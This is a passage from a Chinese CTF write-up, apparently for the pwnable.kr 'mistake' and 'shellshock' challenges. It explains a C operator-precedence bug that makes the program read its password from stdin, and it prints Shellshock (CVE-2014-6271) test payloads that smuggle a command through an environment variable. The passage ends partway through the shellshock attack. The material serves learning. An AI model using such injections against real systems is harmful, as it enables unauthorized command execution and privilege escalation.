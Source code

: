 ```c
        close(fd);

        return 0;

}
```

观察这一行 
```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
```
乍一看没什么不对, 当返回的文件描述符小于0时报错 
但是`<`是比`=`优先级高的, 所以事实上首先open()会返回3(0, 1, 2是什么见第1题fd), 然后执行3<0这个表达式, 它的值是0. 最后执行`fd=0`, 由第一题fd我们学到了fd = 0是stdin. 所以事实上password是我们输入的. 
然后我们再来看xor这个函数, 它将一个字符串的前n个字符与1异或. 题目中给出的是前10个字符. 
所以我们只需要先输入10个字符作为password, 再输入这些字符异或1得到的字符串. 由于字符'0'的ascii码为110000, 字符'1'的ascii码为110001, 恰好'0'^1 = '1'. 所以只需进行如下操作 
```text
./mistake
do not bruteforce...
0000000000
1111111111input password : 
Password OK
Mommy, the operator priority always confuses me :(
```

## 10 shellshock
这是一个set-uid程序: 
```c
#include <stdio.h>

int main(){

        setresuid(getegid(), getegid(), getegid());

        setresgid(getegid(), getegid(), getegid());

        system("/home/shellshock/bash -c 'echo shock_me'");

        return 0;

}
```
这是一个别名为shellshock的漏洞, CVE-2014-6271 
原理大概是bash读取环境变量时会调用后面的函数, 在调用bash时会直接触发
```text
export foo='{:;}; echo test'
bash
test
```
测试方法:
```text
shellshock@pwnable:~$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
shellshock@pwnable:~$ env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
```
证明环境变量中的bash没有此漏洞, 而当前目录的bash有此漏洞 
攻击该程序: 如果real uid和effective uid相同时, 环境变量在程序内有效, 就可以利用这个漏洞. 而本题代码中
```c
setresuid(getegid(), getegid(), getegid());

        setresgid(getegid(), getegid(), getegid());

```